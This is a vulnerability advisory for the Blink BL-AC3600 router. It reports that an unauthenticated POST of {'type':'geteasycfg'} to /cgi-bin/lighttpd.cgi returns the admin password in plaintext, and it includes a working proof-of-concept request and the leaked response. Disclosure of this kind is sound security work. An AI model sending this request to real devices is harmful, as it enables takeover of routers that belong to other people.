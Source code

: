 # Plaintext Password Leakage in the Web Management Interface of BL-AC3600 Routers

BUG_Author: waiwai

Vendor：[Blink](https://www.b-link.net.cn/)

Product: [BL-AC3600](https://www.b-link.net.cn/product_29_177.html)

Affected Version: V1.0.22 and earlier 

Vulnerability Files: `libblinkapi.so`

## Description

The Web management interface of the Blink router `/cgi-bin/lighttpd.cgi` directly returns the plaintext admin password (password field) when responding to the `{"type":"geteasycfg"}` request. Attackers can obtain the admin password by constructing HTTP requests and thereby fully control the device.

When handling `geteasycfg` requests, the `bs_GetEasyInfo` function in `libblinkapi.so` is called for business logic processing. This function has a security flaw: it directly reads the administrator password (Routepwd) from the UCI configuration without encryption or desensitization processing, and directly writes the plaintext password into the JSON response and returns it.

![image-20250628010240152](./assets/Plaintext_Password_Leakage_in_the_Web_Management_Interface_of_BL-AC3600_Routers/image-20250628010240152.png)

## POC

Request: 

The value of Authorization can be filled in at will

```
POST /cgi-bin/lighttpd.cgi HTTP/1.1
Host: x.x.x.x:8080
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=admin
Referer: http://192.168.2.2/html/index.html
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Authorization: 1
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.2.2
Content-Length: 21

{"type":"geteasycfg"}
```

Response：

```
HTTP/1.1 200 OK
Date: Fri, 27 Jun 2025 16:53:53 GMT
Server: lighttpd/1.4.59
Content-Length: 165

{"type":"geteasycfg","version":"SOLAR-V36-300M-28A-S-EN,1.0.3","operationmode":"wisp","wanstatus":"unlink","netstatus":"link","password":"admin@123","jumpflag":"0"}
```



## Example

First request:

return default password

![passwd1](./assets/Plaintext_Password_Leakage_in_the_Web_Management_Interface_of_BL-AC3600_Routers/passwd1.png)

To verify that the vulnerability holds true, log in to the webui to modify the password and make a new request. The returned password value is the modified one.

Second request：

return modified password admin@123

![image-20250628012129383](./assets/Plaintext_Password_Leakage_in_the_Web_Management_Interface_of_BL-AC3600_Routers/image-20250628012129383.png)